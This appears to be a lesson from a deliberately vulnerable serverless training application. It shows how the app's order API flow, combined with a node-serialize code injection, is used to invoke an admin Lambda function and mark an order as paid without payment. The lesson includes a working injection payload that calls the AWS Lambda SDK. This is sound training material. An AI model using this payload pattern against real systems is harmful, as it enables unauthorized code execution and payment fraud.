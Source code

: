 # LESSON #5: Broken Access Control

The DVSA applicaiton has some admin functions. Although these functions are not available through the standard API calls, the function that receives the API calls has permissions to invoke any function. Since the function is vulnerable to [code injection](../LESSONS/LESSON_01.md) is it possible to invoke admin function using the standard API calls.

This means that by invoking the right funciton at the right time, we can skip the payment. But, first, we start with the normal flow:

- ```{"action": "new", "cart-id": "xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx", "items": { "<item-id>":<qty>, "<item-id>":<qty>, ... }}```

- ```{"action": "shipping", "order-id": "yyyyyyyy-yyyy-yyyy-yyyy-yyyyyyyyyyyy", "data": {"address":"<address>", "email":"<email>", "name":"<name>"}}```

- ```{"action": "billing", "order-id": "yyyyyyyy-yyyy-yyyy-yyyy-yyyyyyyyyyyy", "data": {"ccn":"4242424242424242", "exp":"11/22", "cvv":"123 }}```

Now that we have an order that is missing only the payment, let's exploit.

To admin function receives an order Id and the parameters to update, so we can send something like that:
```
neworder = {"body":{"action":"update", "order-id": "cc241d5c-f665-48db-8e55-4391f62465ba", "item":{"userId": "12312312-1233-1233-1233-123123123123", "token": "aSD32d2ASd2", "ts": "1545594489", "itemList": {"20":2}, "address": {"name": "john doe", "email": "secret@email.com", "address": "po box 12333"}, "total":25, "status":120}}}
```

Now, we have to pass it as part of the exploit itself:
```
'{"action": "_$$ND_FUNC$$_function(){var p=JSON.stringify(' + new_order + ');var a=require(\\"aws-sdk\\");var l=new a.Lambda();var x={FunctionName:\\"DVSA-ADMIN-UPDATE-ORDERS\\",InvocationType:\\"RequestResponse\\",Payload:p};l.invoke(x, function(e,d){});}()"}'```
